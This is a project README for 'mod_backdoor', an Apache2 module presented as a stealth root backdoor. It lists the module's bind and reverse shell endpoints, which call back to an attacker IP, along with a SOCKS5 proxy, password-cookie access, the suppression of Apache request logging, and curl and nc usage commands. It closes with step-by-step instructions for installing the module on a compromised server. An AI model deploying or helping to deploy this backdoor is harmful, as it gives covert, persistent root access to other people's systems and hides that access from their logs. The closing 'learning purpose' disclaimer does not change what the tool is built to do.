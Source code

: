# Apache2 mod_backdoor

mod_backdoor is a stealth backdoor using an Apache2 module.<br/>
The main idea is to fork() the primary Apache2 process just after it has loaded its config.
Since it's forked before the root user transfers the process to www-data, you can execute command as root.<br/>
As Apache2 loads its configuration only when you (re)start it, the challenge was to never let die this 
forked root apache2 process, to let us interact as root with the compromised system.

# Features

* Bind TTY Shell
* Reverse Shell (TTY , Native, PHP, Perl, Python, Ruby)
* High stability and reliability, each shell spawns 
a new forked independent root process **attached to PID 1** and **removed from apache2 cgroup**
* Socks5 proxy
* Password Protection through cookie headers
* Ping module to know if its still active
* Bypass logging mechanism. Each request to the backdoor module **are not logged** by Apache2.
* Work on systemd systems, but should also work with init-like systems

# Demo
[![asciicast](https://asciinema.org/a/289452.svg)](https://asciinema.org/a/289452)
# Description

* The password is send through Cookie headers: `Cookie: password=backdoor`. It's defined with `#define` 
in the beginning of mod_backdoor.c, so you could easily edit it.<br/>

* Each following requests must contain this password to interact with the module.<br/>
* Each request containing this cookie **will not be logged by Apache** if the module is running. <br/>

* Each shell spawns **attached to PID** 1 and **is removed from apache2 cgroup**.
 It means it's possible to **restart/stop apache2.service from a spawned shell** (not true for 
 TTY shells because an apache2 process is needed to do the bidirectional communication between socket
 and pty). It also improves stealth, shells are no longer related to apache2.service. <br/>
 * IPC socket is stored in the private /tmp folder provided by systemd service. 
 On non-systemd systems, I'm currently working on how to implement a stealth behavior for the socket.

### Bind TTY Shell
The endpoint  `http[s]://<TARGET>/bind/<PORT>` binds a listening port on `<TARGET>:<PORT>` <br/>
When a connection is initiated to the listening port, the port closes. <br/>
`forkpty()` is used to obtain a native TTY shell, working with an IPC UNIX socket to communicate 
between forked TTY process and the new socket you just opened.<br/>
Shells could be easily upgraded with the famous trick:<br/>
 `CTRL-Z --> stty raw -echo --> fg --> reset`

### Reverse TTY Shell
It works like the bind shell, the endpoint `http[s]://<TARGET>/revtty/<IP>/<PORT>` returns a TTY
shell to `<IP>:<PORT>` <br/>


### Reverse Shell (No TTY)
The endpoint `http[s]://<TARGET>/reverse/<IP>/<PORT>/<PROG>` returns a shell to `<IP>:<PORT>`. <br/>
`<PROG>` must be one of these: <br/>
<p align="center">

| Native   | External  |    
| :------: | :--------:|
|   sh     |    php    |
|   bash   |    python |
|   dash   |    ruby   |
|   ash    |    perl   |
|   tcsh   |           |
|   ksh    |           |

</p>

`<PROG>` must be in lower-case.<br/>
PHP uses the `exec` function.<br/>
Ruby isn't using `/bin/sh`.

### Socks5 proxy
Source code comes from https://github.com/rofl0r/microsocks <br/>
The endpoint `http[s]://<TARGET>/proxy/<PORT>/<USER>` opens a socks5 proxy on `<PORT>`. 
`<USER>` is optional. If you set it, it activates the auth mode. Password is the same as the mod_backdoor.<br/>
Once a specific ip address authed successfully with `user:pass`, it is added to a whitelist and may use the proxy without auth. 
This is handy for programs like firefox that don't support `user:pass` auth.<br/>
For it to work you'd basically make one connection with another program that supports it, and then you can use firefox too.<br/>
Example:<br/>
1. `curl -H 'Cookie: password=backdoor' http://<TARGET>/proxy/1337/vlad` <br/>
--> Start socks proxy on port 1337 for `vlad` user 
2. `curl -x socks5://vlad:password=backdoor@<TARGET>:1337 https://www.google.com` <br/>
--> Register your IP address
3. You could now use it without auth
4. When you're done, you can kill the socks proxy by sending `imdonewithyou` in a socket <br/>
--> `echo "imdonewithyou" | nc <TARGET> 1337`

### Ping module
The endpoint `http[s]://<TARGET>/ping` tells you if the module is currently working.

# Notes
Apache2 Module Backdoor is inspired from Ringbuilder, created by Juan Manuel Fernandez ([@TheXC3LL](https://twitter.com/TheXC3LL))<br/>
More info about Ringbuilder:<br/>
https://github.com/TarlogicSecurity/mod_ringbuilder <br/>
https://www.tarlogic.com/en/blog/backdoors-modulos-apache/ <br/>

Socks5 code was adapted from https://github.com/rofl0r/microsocks <br/>
<br/>
Special thanks to [@Ug_0Security](https://twitter.com/Ug_0Security)

# Builds
For development :<br/>
* `apxs -i -a -c mod_backdoor.c sblist.c sblist_delete.c server.c -Wl,-lutil` <br/>
 `-Wl,-lutil` used to link mod_backdoor.so with libutil.so to use forkpty() from <pty.h>
* `systemctl restart apache2`

On a compromised server :<br/>
* Compile it for the desired arch and retrieve the mod_backdoor.so or<br/>
get it from the `build/` folder (compiled for: Apache/2.4.41 (Debian)).
* Copy mod_backdoor.so to `/usr/lib/apache2/modules/mod_backdoor.so`
* Copy backdoor.load to `/etc/apache2/mod-available/backdoor.load`
* `a2enmod backdoor` --> `systemctl restart apache2`

# Author
Vlad Rico ([@RicoVlad](https://twitter.com/RicoVlad))

## Disclaimer
This project was created only for learning purpose.<br/>
Usage of mod_backdoor for attacking targets without prior mutual consent is illegal. 
It is the end user's responsibility to obey all applicable local, state and federal laws. 
Developers assume no liability and are not responsible for any misuse or damage caused by this program.
